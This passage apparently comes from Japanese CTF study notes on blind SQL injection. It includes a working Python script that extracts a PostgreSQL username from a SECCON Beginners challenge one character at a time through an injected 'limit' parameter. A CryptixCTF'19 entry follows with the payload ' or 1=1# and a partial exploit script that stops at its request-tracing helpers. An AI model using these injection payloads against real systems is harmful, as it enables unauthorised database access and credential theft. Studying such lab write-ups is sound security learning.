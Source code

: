 `limit=(CASE WHEN (SELECT ascii(substr(usename, 0, 1)) FROM pg_user LIMIT 1) = 99 THEN 1 ELSE 0 END)`  
```python
import requests


def judge(html):
    return "1 of 200 tweets are displayed. enjoy" in html


url = "http://tweetstore.quals.beginners.seccon.jp"


def leak_usename():
    leak = ""
    for j in range(1, 1000):
        for i in range(126, 32, -1):
            buf = f"(CASE WHEN (SELECT ascii(substr(usename, {j}, 1)) FROM pg_user LIMIT 1 OFFSET 1) = {i} THEN 1 ELSE 0 END)"
            params = {"search": "a", "limit": buf}
            print(buf)
            res = requests.get(url, params=params)
            if judge(res.text):
                leak += chr(i)
                print(f"[+] now:{leak}")
                break
        if len(leak) != j:
            print(f"[*] {leak}")
            break

leak_usename()
```
## blind injection / binary search (CryptixCTF'19 Writeup - Pure Magic)
https://graneed.hatenablog.com/entry/2019/10/13/214515  
- **entrypoint**  
passphraseを入力するフォームで`' or 1=1#`を入力すると、`SELECT * FROM data where password='XXXXX'`を特定するというヒントが出る。  
以下の普通のbinary searchのBlind。 
- **payload**  
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import requests
import string
import time
URL = 'https://cryptixctf.com/web3/login.php'
target = ""
def trace_request(req):
    print("[+] request start")
    print('{}\n{}\n\n{}'.format(
        req.method + ' ' + req.url,
        '\n'.join('{}: {}'.format(k, v) for k, v in req.headers.items()),
        req.body,
    ))
    print("[+] request end")
def trace_response(res):
    print("[+] response start")
    print('{}\n{}\n\n{}'.format(
        res.status_code,
        '\n'.join('{}: {}'.format(k, v) for k, v in res.headers.items()),
        res.content,
    ))
    print("[+] response end")
```